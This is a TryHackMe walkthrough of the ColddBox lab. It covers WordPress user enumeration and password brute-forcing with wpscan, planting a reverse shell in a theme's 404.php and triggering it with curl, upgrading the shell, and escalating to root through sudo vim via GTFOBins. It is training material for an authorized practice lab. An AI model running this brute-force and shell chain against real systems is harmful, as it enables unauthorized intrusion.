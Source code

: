 # ColddBox TryHackme Walkthrough

![](images/BoxImage.png)

###              First Stage : Enumeration


Nmap Scan shows port 80 and 4512 open.

![](images/Nmapscan.png)


Now lets visit the site on port 80.

![](images/website1.png)





Also we can see a comment in the post.


![](images/website2.png)


Since the website is wordpress website we should use wpscan to enumerate.

>wpscan --url http://\<ip>

![](images/wpscan1.png)


__So the wordpress theme is twentyfifteen.__

Lets see if we can enumerate some usernames with wpscan

> wpscan --url http://\<ip> -e u

![](images/wpscan2.png)

So the usernames we found are :

* the cold in person
* hugo
* c0ldd
* philip

Hence our only way in is bruteforce I guess


###     Second Stage : BruteForce




So lets bruteforce with wpscan itself

>wpscan --url http://\<ip> --usernames c0ldd -P /usr/share/wordlists/rockyou.txt




![](images/wpscan3.png)


So we have username and password lets login and change the 404.php of the theme and get a reverse shell.


![](images/worpress.png)

Use this command to access the reverse shell

>curl http://\<ip>/wp-content/themes/twentyfifteen/404.php

So we are inside  as www-data

![](images/www-data.png)

To upgrade the shell use following commands

```bash
   python3 -c"import pty;pty.spawn('/bin/bash')"
   #then press Ctrl-Z to suspend 
   stty raw -echo ; fg
   #then press enter two times
   export TERM=screen
```


### Third Stage : Second level enumeration 


So we can run linpeas.sh to enumerate

And as we go and read the results of enumeration we see this.

![](images/linpeas.png)


So lets ssh into the machine

We can see the user flag.

![](images/user.png)


### Fourth Stage : Privilege Escalation


So lets try 

> sudo -l

to see what privileges we have .


![](images/priveleges.png)


So if we search in [GTFOBins](https://gtfobins.github.io/) and search for vim we get to see this .

![](images/gtfobins.png)

I am gonna use option b and get shell


And finally we get a shell .


![](images/root.png)



